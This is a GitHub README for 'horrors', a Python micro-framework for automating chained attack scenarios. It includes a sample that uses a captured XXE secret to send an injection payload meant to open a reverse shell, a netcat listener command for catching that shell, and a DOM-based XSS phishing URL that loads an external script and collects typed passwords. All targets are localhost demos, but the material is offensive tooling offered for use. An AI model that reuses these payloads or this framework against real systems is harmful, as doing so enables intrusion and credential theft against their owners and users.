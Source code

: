 # horrors

> A micro-framework for writing attack scenarios starring multiple vulnerabilities.

## About

This framework was created in order to simplify attack automation and exploit development. All you have to do is, for example:

```python
class ReverseShell(scenarios.Scene):

    async def task(self):
        """Wait for `xxe` state triggered when remote client connects via FTP and sends the secret"""

        await self.http_post(
            'http://{rhost}:{rport}/query/'.format(**self.context),
            'secret={secret}&query=DROP+TABLE+IF+EXISTS+[...]{lhost}+{lport_reverse}'.format(**self.context)
        )

context = {
    'rhost': '127.0.0.1',
    'rport': 8008,
    'lhost': '127.0.0.1',
    'lport_reverse': 4444,
}

ftpd = services.FTPReader()
ftpd.add_event('xxe', when=events.DataMatch(r'.+SecretKey=(.+);', bucket='secret'))

story = scenarios.Scenario(context=context, debug=True, http_proxy='http://127.0.0.1:8080')
story.add_service(ftpd)
story.add_scene(ReverseShell, when='xxe')
story.play()
```

## Installation

    $ pip3 install git+https://github.com/tasooshi/horrors

## Example

Examples are included in the `horrors/examples` directory. Try it out by running:

### 1. vulnchain

    $ nc -lv4 4444
    examples/vulnchain:$ victim.py
    examples/vulnchain:$ attacker.py

[![example](https://img.youtube.com/vi/VQwysZItPrE/0.jpg)](https://www.youtube.com/watch?v=VQwysZItPrE)

### 2. xssphish

Or (this one requires interaction):

    examples/xssphish:$ victim.py
    examples/xssphish:$ attacker.py

Now visit `http://127.0.0.1:8008/?message=<script src="http://127.0.0.1:8888/fakequery.js"></script>`, type some passwords and watch `collected.json` for incoming credentials.

![xssphish](examples/xssphish/dom-based-xss-phish.jpg)

## Changelog

* **2021/12/23** Getting production ready (v0.6)
    * Major refactoring and backward incompatible changes
    * Added unit tests
    * Replaced Flask with Sanic framework
    * Scenes are now class-based
* **2021/12/14** Beta (v0.5)
    * Improved HTTP proxy logic
* **2021/12/12** Beta (v0.4)
    * A bit of asyncio cleaning up
    * Fixed examples to match the new API
    * Simplified services imports and generally everything
    * Changed default ports
    * Added requirements to setup.py
    * Replaced requests with aiohttp
* **2021/08/26** Beta (v0.3)
    * Yet another refactoring.
    * Added full HTTP support using Flask.
    * Added `utility/collector.py` to simplify data collection from exploited machines (and another related example).
* **2021/08/10** Beta (v0.2)
    * Refactored and largely simplified codebase: it is now easier to reuse code between multiple scenarios by mixing functions, wrapping in classes etc.
    * Steps are not executed sequentially, you decide depending on signals (events) registered when adding to scenario (`story.add(func, when='something')`).
    * Removed asyncio.Event dependency since I was not able to make it work the way I wanted.
* **2021/07/30** Initial release (v0.1)

